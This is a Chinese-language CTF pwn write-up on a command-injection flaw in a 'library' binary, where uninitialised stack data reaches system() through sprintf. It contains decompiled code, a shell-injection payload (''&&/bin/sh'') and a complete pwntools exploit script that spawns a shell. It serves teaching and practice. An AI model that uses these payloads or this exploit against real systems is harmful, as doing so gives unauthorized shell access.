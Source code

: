 # 0x00 前言

这种命令行注入在pwn中出现的比较少，所以记录分享一下。

# 0x01 命令行注入介绍
熟悉web安全的话就知道，如果对特殊字符过滤不当，会引发sql注入或者xss等安全漏洞。其中，命令行注入较为严重，因为可以直接拿到漏洞程序当前权限的OSshell。
然而，命令行注入不仅在web中会出现，在C语言程序中，也会出现命令行注入的漏洞。比方说这道pwn题，就是调用system时，没有对输入数据进行\0截断以及对特殊字符处理不当而导致的。
命令行注入相对于其他二进制漏洞相比利用比较简单，比方说这道题，举个例子：
```c
sprintf(&s, "du -sh lib/'%s'", v6);
system(&s);
```
其中设计初衷，v6应当是一个合法的文件名。但是如果攻击者恶意操控v6，比方说，让v6为：'&&/bin/sh'
进行sprintf拼接后，system所执行的命令为：
```bash
du -sh lib/''&&/bin/sh''
```
这里有两个linux命令行的知识：
1. &&，这是拼接两个命令，如果我们执行 command1&&command2，那么等价于先执行command1在执行command2。其中命令跟&&之间不必加空格。
2. 在命令后不加空格的''（两个单引号）会被忽略，比如ls''等价于ls，/bin/sh''等价于/bin/sh，du -sh lib/''等价于du -sh lib/（即，实际传进去的参数是lib/不是lib/''）

所以，执行上面的命令，相当于先执行了
```bash
du -sh lib/
```
再执行
```bash
/bin/sh
```
所以，可以getshell。

# 0x02 题目

题目所给的是一个library的服务，可以上传book，查看books，清除books。其中，book存放在lib/文件夹中。

# 0x03 漏洞点

```c
char *list_books()
{
  FILE *v0; // eax
  char *result; // eax
  char s; // [esp+4h] [ebp-C14h]
  char ptr; // [esp+804h] [ebp-414h]
  char *v4; // [esp+C04h] [ebp-14h]
  FILE *stream; // [esp+C08h] [ebp-10h]
  char *v6; // [esp+C0Ch] [ebp-Ch]

  v0 = popen("ls lib/", "r");
  stream = v0;
  result = (char *)fread(&ptr, 1u, 0x400u, v0);
  v4 = result;
  if ( result )
  {
    v6 = strtok(&ptr, delims);
    result = (char *)send("Book list:\nSize\tE-book\n");
    while ( v6 )
    {
      sprintf(&s, "du -sh lib/'%s'", v6);
      //很明显，这里存在可能的命令行注入
      system(&s);
      fflush(stdout);
      result = strtok(0, delims);
      v6 = result;
    }
  }
  return result;
```

其中list_books代码如上，v6来自fread从popen中的返回结果。他本来想做的是输出每个文件的大小，但是fread后没有用\0截断。所以调用strtok时，可能会读到fread后面的垃圾数据（当然如果可以操控的话就不是垃圾数据了）

sprintf的栈溢出会比较难利用，因为&s比较大，有0x800，而v6是从&ptr里面strtok出来的，而&ptr更小，只有0x400。所以应该没法很好的利用。

# 0x04 操控垃圾数据

那么，我们怎么去操控&ptr中的垃圾数据呢？这个时候看看另外一个函数

```c
int upload_book()
{
  char *v1; // eax
  int v2; // eax
  char buf[1024]; // [esp+Ch] [ebp-42Ch]
  char s[20]; // [esp+40Ch] [ebp-2Ch]
  FILE *stream; // [esp+420h] [ebp-18h]
  char *dest; // [esp+424h] [ebp-14h]
  size_t v7; // [esp+428h] [ebp-10h]
  int v8; // [esp+42Ch] [ebp-Ch]

  if ( book_counter > 10 )
    return send("too many books\n");
  send("Book filename: ");
  v8 = __isoc99_scanf("%20s", s);
  if ( v8 != 1 )
    return send("Wrong title format\n");
  v7 = strlen(s);
  if ( strcmp(&s[v7 - 3], ".bk") )
    return send("The name needs to end with '.bk'\n");
  send("e-book contents: \n");
  read(0, buf, 0x400u);
  if ( *(_DWORD *)buf != 'BBBB' )
    return send("Not an e-book\naborting...\n");
  v1 = (char *)malloc(0x18u);
  dest = v1;
  *(_DWORD *)v1 = 0x2F62696C;
  v1[4] = 0;
  strcat(dest, s);
  stream = fopen(dest, "w");
  if ( !stream )
    return send("Bad book filename\n");
  v2 = book_counter++;
  books[v2] = dest;
  fwrite(buf, 1u, 0x400u, stream);
  return fclose(stream);
}
```

其中，这在栈中也会分配0x400个字节，并且我们可以写入。
并且，调用完这个函数之后，清除栈空间时，只是简单地add esp,xxx，并不会清空其中数据。然后，再调用存在命令行注入的函数并分配栈空间时，也只是单纯地sub esp,xxx，也不会清空数据。在C语言中，如果此时对不赋值的局部变量直接访问的话，是UB行为。但是，从二进制安全的角度看的话，便是可利用的点了。其中这道题，本身就是一个局部字符串读取后未截断而造成的UB，然而我们便可以利用这个。

那么来试试： 
![图片描述](742286_B8YD2W3Y8ZJNJ9K.png)


很明显，BBBB123456789123456789123456789123456789AAAA的后面89123456789AAAA被拼接到du -sh lib/'%s'中了
动态调试看一下的话

第一次在system停下
 ![图片描述](742286_KEV75FKDRYYKT77.png)

第二次在system停下
 ![图片描述](742286_TTMMX45NMT3RYGD.png)


所以很明显，只要把89123456789AAAA改成

```bash
'&&/bin/sh'\x00
```

就可以getshell了。如前面所说。
其中，\x00是我们自己手动截断，不然strtok还会继续往后读。

所以最后exp

```python
#BBBB1234567891234567891234567'&&/bin/sh'
g_local = True

from pwn import *

if g_local:
	sh=process("./library")
else:
	sh=remote("xxxx",1234)


def upload_book(filename, content):
	filename += ".bk"
	sh.send("1\n")
	sh.recvuntil("Book filename: ")
	print filename
	sh.send(filename + "\n")
	sh.recvuntil("e-book contents: \n")
	sh.send(content)
	sh.recvuntil("Enter command: ")

def list_books_and_shell():
	sh.send("2\n")
	sh.interactive()

upload_book("1", "BBBB1234567891234567891234567\'&&/bin/sh\'\x00")
list_books_and_shell()
```

# 0x05 后言

还有一点要注意，pwndbg好像会默认在fork时跟子进程，所以要在~/.gdbinit的最后面(加载pwndbg之后)加上set follow-fork-mode parent。并且，&&与命令之间不能加空格。因为他strtok是通过空格和换行分断字符串的，加了空格我们的payload就会被strtok分割开。
